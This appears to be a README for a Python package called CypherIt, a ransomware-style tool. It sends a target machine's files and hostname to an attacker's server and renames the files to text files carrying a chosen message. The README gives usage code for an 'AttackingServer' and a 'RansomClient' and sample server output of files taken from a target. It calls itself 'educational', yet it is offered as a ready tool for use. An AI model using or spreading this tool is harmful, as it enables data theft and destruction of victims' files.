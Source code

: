 CypherIt
========

CypherIt is an intelligent tool which renames all the files to a txt file in a binder.You can write what ever you want.

All the files of the target will be saved in your directory and you can do what ever you want. The name of the directory is the targets hostname

Inspired by:
==========
B.I.GG. He had this wonderful idea. BIG thanks to him

HOW DOES CYPHERIT WORK
======================

If you are familiar to my style of packages. You already know how simple it is

First of all create a server:

Server
------

````python
import CypherIt as ci

ip, port = "127.0.0.1", 1234

server = ci.AttackingServer(ip, port)
server.start()
````

Client
------

````python
import CypherIt as ci

ip, port, path, text = "127.0.0.1", 1234, r"C:\\test", "ALI THE MASTER"
# You have to specify the path because this was just build for educational purposes. So please do not use it for bad thinks

data = ci.RansomClient(ip, port, path, text)
data.start()
````

Output of Server
--------------
````
Waiting for connection....
Connection has been established with ('192.168.0.73', 64328)
98_304 Bytes has been sent to the server
"_" stands for point
18 files have been saved to your directory
Waiting for connection....
````


You always have to run the server first and then the client.

The hostname of the target will be sent to your server

A Directory with the hostname of the target will be created.

All the data of target will be stored in that directory

Additional
=========
* PLEASE DO NOT HACK SOMEONE FOREIGN
* If you see "Connection has been established" at the server than you have to wait a bit for the data to arrive